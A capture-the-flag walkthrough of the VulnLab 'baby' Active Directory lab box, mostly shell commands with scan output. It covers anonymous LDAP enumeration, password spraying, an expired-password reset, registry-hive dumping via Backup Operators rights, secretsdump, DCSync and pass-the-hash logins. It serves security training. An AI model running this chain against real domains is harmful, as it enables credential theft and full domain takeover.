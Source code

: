 ```yaml
---
layout: post
title:  "VulnLab | baby"
description: "walkthrough of baby machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/baby/baby1.png
  alt: "baby.vl"
category: "VulnLab"
tags: ["Active Directory", "ldap", "STATUS_PASSWORD_MUST_CHANGE" ,"Backup Operators"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[baby](https://www.vulnlab.com/machines) is an easy rated windows box from vulnlab.The box is actually a domain controller running Active Directory Domain Services. The foothold consist of abusing the anonymous access to ldap service where we can read a default password in a user description. By spraying this password we can determine a user that haven't yet changed thier password. The privilege escalation part involve absing the rigths of Backup Operators group to get access to the machine account ntlm hash that can by used to perfom dcsync attack. 

------------------------------------------------------------------------------------------

## Enumeration
### All Open Ports
```bash
rustscan -a 10.10.116.81
```
![rustscan](./assets/img/ctf/vulnlab/baby/baby2.png)

### Services Scanning
```bash
nmap -p... -sC -sV -v -oN baby.full 10.10.116.81
```
```text
# Nmap 7.94SVN scan initiated Tue Nov 12 17:02:51 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3389,5357,5985,9389,49664,49667,49669,49674,49675,51102,51118 -sC -sV -v -oN baby.full 10.10.116.81
Nmap scan report for 10.10.116.81
Host is up (0.049s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-12 16:02:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-11-12T16:04:26+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Issuer: commonName=BabyDC.baby.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-26T09:03:15
| Not valid after:  2025-01-25T09:03:15
| MD5:   a63f:e0e6:9c19:ba19:0f14:2198:bd20:3eb3
|_SHA-1: 79c6:f752:73d0:6818:241e:6087:88b0:2a7f:b0bf:ec7f
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-12T16:03:47+00:00
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         Microsoft Windows RPC
51102/tcp open  msrpc         Microsoft Windows RPC
51118/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-12T16:03:48
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:04:28 2024 -- 1 IP address (1 host up) scanned in 96.54 seconds
```
### Hostname
```bash
echo '10.10.116.81  BabyDC.baby.vl  baby.vl'  >> /etc/hosts
```

## Foothold
The ldap service allows anonymous access. We can use ldapsearch tool to request informations about users, groups and other active directory objects.
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=User)' "sAMAccountName" | grep sAMAccountName
```
![Users](./assets/img/ctf/vulnlab/baby/baby3.png)
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=User)' | grep description -C 5
```
![users and description](./assets/img/ctf/vulnlab/baby/baby4.png)
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectclass=Group)' | grep 'member:'
```
![Groups](./assets/img/ctf/vulnlab/baby/baby5.png)
```text
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ivan.Walker
```
From the previous ldap queries we manage to read a default password in  Teresa.Bell description and create a list of valid users. Next let's try to spray that password...
```bash
nxc smb baby.vl -u users.txt -p 'BabyS********'
```
![password spaying](./assets/img/ctf/vulnlab/baby/baby6.png)

The spraying tells us that our password is valid for user Caroline.Robinson (who is still using the default password). The password has expired so we need to set a new password. This can be done as following: 
```sh
smbpasswd -r 10.10.116.81 -U Caroline.Robinson
```
![caroline passwd change](./assets/img/ctf/vulnlab/baby/baby7.png)

```text
user: Caroline.Robinson
pass: NewP@ssw0rd
```
With the  new password, we can try to see what services we can access as Caroline.Robinson. We can we can PSRemote to the DC and we have RW on the C$ share.
```bash
nxc smb baby.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc winrm baby.vl -u Caroline.Robinson -p NewP@ssw0rd
nxc smb baby.vl -u Caroline.Robinson -p NewP@ssw0rd --shares
```
![winrm](./assets/img/ctf/vulnlab/baby/baby8.png)
![smb shares](./assets/img/ctf/vulnlab/baby/baby9.png)

```bash
ldapdomaindump  'ldap://baby.vl' -u 'baby.vl\Caroline.Robinson' -p NewP@ssw0rd -o lootme
```
![ldap dom dump](./assets/img/ctf/vulnlab/baby/baby10.png)
```bash
evil-winrm -i baby.vl -u Caroline.Robinson -p NewP@ssw0rd
```
![evil-winrm](./assets/img/ctf/vulnlab/baby/baby11.png)


## Privilege Escalation
Our current user Caroline.Robinson is member of Backup Operators Group...
```powershell
net user Caroline.Robinson
```
![net user](./assets/img/ctf/vulnlab/baby/baby12.png)

```bash
reg.py baby.vl/Caroline.Robinson:'NewP@ssw0rd'@10.10.116.81  backup -o '\\10.10.116.81\C$'
```
![registry](./assets/img/ctf/vulnlab/baby/baby13.png)

```bash
secretsdump.py -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby14.png)

```bash
nxc smb baby.vl -u Administrator -H 8d992faed38128ae85e95f********
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby15.png)

```sh
secretsdump.py -hashes 'aad3b435b51404eeaad3b435b51404ee':'03f31d66e3ee8be794059*********' 'baby.vl'/'BabyDC$'@'10.10.116.81'
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby16.png)

```bash
nxc smb baby.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby17.png)

```bash
evil-winrm -i baby.vl -u Administrator -H ee4457ae59f1e3fbd76*******
```
![local secretsdump](./assets/img/ctf/vulnlab/baby/baby18.png)

## Kill Chain Summary
1. Abuse ldap anonymous access to enumerate users, groups,...etc
2. Password spraying
3. Backup Operators Group rights abuse
4. Dcsync attack

## References
[reseting expired passwords](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)